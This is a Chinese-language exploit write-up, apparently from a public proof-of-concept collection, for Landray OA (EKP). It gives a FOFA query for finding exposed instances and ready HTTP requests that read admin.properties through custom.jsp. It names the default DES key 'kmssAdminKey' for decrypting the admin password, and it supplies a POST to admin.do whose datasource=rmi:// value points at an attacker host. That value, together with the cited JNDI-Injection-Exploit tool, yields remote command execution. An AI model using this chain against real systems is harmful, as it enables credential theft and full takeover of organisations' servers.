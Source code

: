 # 蓝凌OA admin.do JNDI远程命令执行

## 漏洞描述

深圳市蓝凌软件股份有限公司数字OA(EKP)存在任意文件读取漏洞。攻击者可利用漏洞获取敏感信息，读取配置文件得到密钥后访问 admin.do 即可利用 JNDI远程命令执行获取权限

## 漏洞影响

<a-checkbox checked>蓝凌OA</a-checkbox></br>

## FOFA

<a-checkbox checked>app="Landray-OA系统"</a-checkbox></br>

## 漏洞复现

利用 **蓝凌OA custom.jsp 任意文件读取漏洞** 读取配置文件

```plain
/WEB-INF/KmssConfig/admin.properties
```

发送请求包

```plain
POST /sys/ui/extend/varkind/custom.jsp HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 60
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

var={"body":{"file":"/WEB-INF/KmssConfig/admin.properties"}}
```

![img](../../../.vuepress/public/img/lanling-4.png)



获取password后，使用 DES方法 解密，默认密钥为 **kmssAdminKey**

![img](../../../.vuepress/public/img/lanling-5.png)



访问后台地址使用解密的密码登录

```plain
http://xxx.xxx.xxx.xxx/admin.do
```

![img](../../../.vuepress/public/img/lanling-6.png)



<a-alert type="success" message="使用工具执行命令: https://github.com/welk1n/JNDI-Injection-Exploit" description="" showIcon>
</a-alert>
<br/>

```plain
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar [-C] [command] [-A] [address]
```

运行工具监听端口 ping dnslog测试 命令执行 (蓝凌OA 默认使用的是 JDK 1.7)

```shell
POST /admin.do HTTP/1.1
Host: 
Cookie: JSESSIONID=90EA764774514A566C480E9726BB3D3F; Hm_lvt_9838edd365000f753ebfdc508bf832d3=1620456866; Hm_lpvt_9838edd365000f753ebfdc508bf832d3=1620459967
Content-Length: 70
Cache-Control: max-age=0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="90", "Google Chrome";v="90"
Sec-Ch-Ua-Mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Origin: 
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

method=testDbConn&datasource=rmi://xxx.xxx.xxx.xxx:1099/cbdsdg
```



![img](../../../.vuepress/public/img/lanling-7.png)